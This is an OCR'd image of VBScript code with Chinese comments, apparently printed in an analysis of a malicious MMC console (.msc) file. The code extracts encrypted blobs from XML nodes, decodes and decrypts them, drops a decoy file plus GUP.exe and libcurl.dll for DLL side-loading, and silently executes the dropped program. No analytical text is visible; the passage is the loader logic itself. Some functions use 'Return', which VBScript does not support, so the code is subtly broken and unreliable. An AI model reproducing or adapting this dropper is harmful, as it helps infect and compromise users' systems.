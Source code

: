 ```
    exePath = targetDir & "\GUP.exe"
    dllPath = targetDir & "\libcurl.dll"
    
    ' 获取临时文件路径
    tempFile = fs.GetSpecialFolder(2) & "\" & decodedFileName
    
    ' 从XML中提取加密的二进制数据
    Set nodes = xmlDoc.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_TREE']")
    binaryData = nodes(0).text
    
    ' 解密数据
    decryptedData = DecryptBinary(binaryData)
    
    ' 写入文件
    Set stream = CreateObject("ADODB.Stream")
    stream.Type = 1 ' 二进制
    stream.Open
    
    ' 写入主程序
    stream.Write decryptedData
    stream.SaveToFile tempFile, 2
    shell.run """" & tempFile & """", 1, false
    
    ' 写入其他组件
    Set nodes = xmlDoc.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_MENU']")
    menuData = DecryptBinary(nodes(0).text)
    stream.Open
    stream.Write menuData
    stream.SaveToFile exePath, 2
    
    Set nodes = xmlDoc.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_GENE']")
    geneData = DecryptBinary(nodes(0).text)
    stream.Open
    stream.Write geneData
    stream.SaveToFile dllPath, 2
    
    ' 执行下载的程序
    shell.run """" & exePath & """ t 8.8.8.8", 0, false
End Function

' 解密函数
Function DecryptBinary(data)
    ' Base64解码
    decoded = Base64Decode(data)
    ' 自定义解密算法
    decrypted = CustomDecrypt(decoded)
    Return decrypted
End Function

' 位运算辅助函数
Function RightShift(value, bits)
    If bits > 0 Then
        If value > 0 Then
            Return Int(value / (2 ^ bits))
        Else
            If bits > 31 Then
                Return 0
            Else
                value = value And &H7FFFFFFF
                value = Int(value / (2 ^ bits))
                value = value Or 2 ^ (31 - bits)
            End If
        End If
```